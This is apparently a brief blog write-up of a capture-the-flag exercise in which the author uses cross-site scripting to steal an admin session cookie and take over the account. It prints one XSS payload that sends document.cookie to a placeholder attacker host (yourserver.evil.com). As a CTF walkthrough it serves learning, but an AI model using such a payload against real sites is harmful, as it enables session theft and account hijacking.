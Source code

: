 ```yaml
---
layout: post
title:  "Cyber XSS notes"
date:   2019-06-15 14:29:25 +0800
categories: infosec
---
```

> Web penetration writeups

Due to the on-going nature of the CTF, I will be avoiding keywords related to the problem or hint the answer out of respect for the competition.

## Cookie Stealing

Basically, there's a page which might be vulnerable to XSS. The goal is to use XSS to change the access level to admin.

Right off the bat, we see that there is a server console on the page. As I opened my *editthiscookie* tool, I saw that there is a user cookie. This hints that we are trying to use XSS to steal the admin cookie as we are given the server address.

> XSS are known to be used to steal cookies. The most common type of attack is to use JavaScript to steal a user's log in cookie (called a session cookie).

Hence, I'll try a script to be run on the page to acess the page.

```javascript
<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />
```

Looking at the console, it seems that they logged the admin cookie. Once I changed my user cookie to the admin's, I instantly got access.

And we're done!